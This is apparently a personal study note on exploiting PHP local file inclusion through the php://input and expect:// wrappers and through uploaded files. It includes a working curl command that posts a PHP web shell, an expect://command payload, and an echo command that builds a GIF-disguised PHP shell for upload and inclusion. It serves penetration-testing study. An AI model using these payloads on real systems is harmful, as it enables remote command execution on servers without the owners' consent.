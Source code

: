 ###### Input Wrapper

Similar to the `data` wrapper in uploading data, but it requires that the data to be uploaded be added as `POST` data.
- Also needs the `allow_url_include` configuration option to be set to on.

Since it requires a `POST` request, then using the [[cURL]] tool is required:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" 
```
- The command to be executed is passed as a `GET` query parameter called `cmd`.

> Instead of uploading an entire shell, we can execute single commands by simply changing the contents of the `system()` to include any command. This is the case if we cant pass `GET` parameters with the command itself.

###### Expect Wrapper

This wrapper allows for commands to be directly executed through the URL stream.
- This wrapper is an external one, so it needs to be installed. To check for its installation, check the configuration file similar to the above wrappers to see if it is installed.

To use it, simply pass the desired command in a LFI vulnerable endpoint:
```url
expect://command
```

#### Using File Uploads

Applications that allow users to upload files requires certain file types.
- For [[File Upload]] attacks, we try to target the upload functionality itself.
- Instead, attackers can upload any file, and then try to include that file through a vulnerable file inclusion function.
- The file uploaded can be of any type, but inside it will be stored `php` code for example that can be executed when called upon.

> The application needs to simply allow file uploads. The vulnerability isn't in the upload form, but in the file inclusion that could take place after the file has been uploaded. Given that the file uploaded has malicious content stored inside.

###### Image Upload

To upload images that are then included maliciously, we need to create an image that has stored inside it a `php` script.
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> Now that the image has been uploaded, we need to find its location. We can do this by inspecting it and finding its URL. Another solution would be to use fuzzing for [[Directory and File Enumeration]] to try and locate its location.

After finding it, we can then head to the vulnerable LFI function and call on the "image" (our script) with a command using the query parameter `cmd`:
```url
./image/location&cmd=id
```
- Notice the `./` as we are running the file.
- Utilize [[Directory Traversal]] techniques to combat defenses placed against it.

---